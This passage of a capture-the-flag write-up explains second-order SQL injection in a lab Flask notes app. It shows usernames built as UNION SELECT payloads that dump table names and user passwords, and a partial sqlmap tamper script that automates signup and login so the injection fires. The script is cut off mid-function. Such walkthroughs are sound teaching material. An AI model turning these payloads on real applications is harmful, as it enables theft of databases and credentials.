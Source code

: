 ![image](https://user-images.githubusercontent.com/89842187/133154353-5a8c3a0d-6089-4258-8cc4-2b13b803e5e8.png)

With this knowledge, this is rather easy to exploit. For example, to get all the tables from the database, we can create a user with the name:

```
' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''

```

To find the flag among the passwords, register a user with the name:

```
'  union select 1,group_concat(password) from users'

```

Automating Exploitation Using Sqlmap
It is possible to use sqlmap to automate this attack, but a standard attack with sqlmap will fail. The injection happens at the user registration, but the vulnerable function is located on the notes page. For sqlmap to exploit this vulnerability, it must do the following steps:

- Register a malicious user
- Login with the malicious user
- Go to the notes page to trigger the injection

It is possible to achieve all of the necessary steps by creating a tamper script. Sqlmap supports tamper scripts, which are scripts used for tampering with injection data. With a tamper script, we can easily modify the payload, for example, adding a custom encoding to it. It also allows us to set other things, such as cookies. 

There are two custom functions in the tamper script below. The first function is create_account(), which register a user with sqlmap's payload as name and 'asd' as password. The next custom function is login(), which logs sqlmap in as the newly created user and returns the Flask session cookie. tamper() is the main function in the script, and it has the payload and **kwargs as arguments. **kwargs holds information such as the HTTP headers, which we need to place the Flask session cookie onto the request to allow sqlmap to go to the notes page to trigger the SQL injection. The tamper() function first gets the headers from kwargs, then creates a new user on the application, and then it logs in to the application and sets the Flask session onto the HTTP header object.

```

#!/usr/bin/python
import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

address = "http://10.10.1.134:5000/challenge4"
password = "asd"

def dependencies():
    pass

def create_account(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/signup", data=data)

def login(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/login", data=data)
        sessid = s.cookies.get("session", None)
    return "session={}".format(sessid)


def tamper(payload, **kwargs):
```